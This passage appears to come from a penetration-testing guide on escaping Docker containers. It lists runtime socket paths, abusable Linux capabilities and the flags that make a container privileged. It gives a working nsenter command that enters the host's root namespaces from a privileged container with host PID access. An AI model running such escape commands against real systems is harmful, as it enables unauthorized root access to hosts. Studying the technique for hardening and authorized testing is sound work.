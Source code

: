 cri-o: `unix:///var/run/crio/crio.sock`

frakti: `unix:///var/run/frakti.sock`

rktlet: `unix:///var/run/rktlet.sock`

...

## Capabilities Abuse Escape

You should check the capabilities of the container, if it has any of the following ones, you might be able to scape from it: `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, `DAC_READ_SEARCH`, `DAC_OVERRIDE, CAP_SYS_RAWIO`, `CAP_SYSLOG`, `CAP_NET_RAW`, `CAP_NET_ADMIN`

You can check currently container capabilities using previously mentioned automatic tools or:

```
capsh --print
```

In the following page you can learn more about linux capabilities and how to abuse them to escape/escalate privileges:

## Escape from Privileged Containers

A privileged container can be created with the flag `--privileged` or disabling specific defenses:

`--cap-add=ALL`

`--security-opt apparmor=unconfined`

`--security-opt seccomp=unconfined`

`--security-opt label:disable`

`--pid=host`

`--userns=host`

`--uts=host`

`--cgroupns=host`

`Mount /dev`

The `--privileged` flag significantly lowers container security, offering unrestricted device access and bypassing several protections. For a detailed breakdown, refer to the documentation on `--privileged`'s full impacts.

### Privileged + hostPID

With these permissions you can just move to the namespace of a process running in the host as root like init (pid:1) just running: `nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

Test it in a container executing:

```
docker run --rm -it --pid=host --privileged ubuntu bash
```
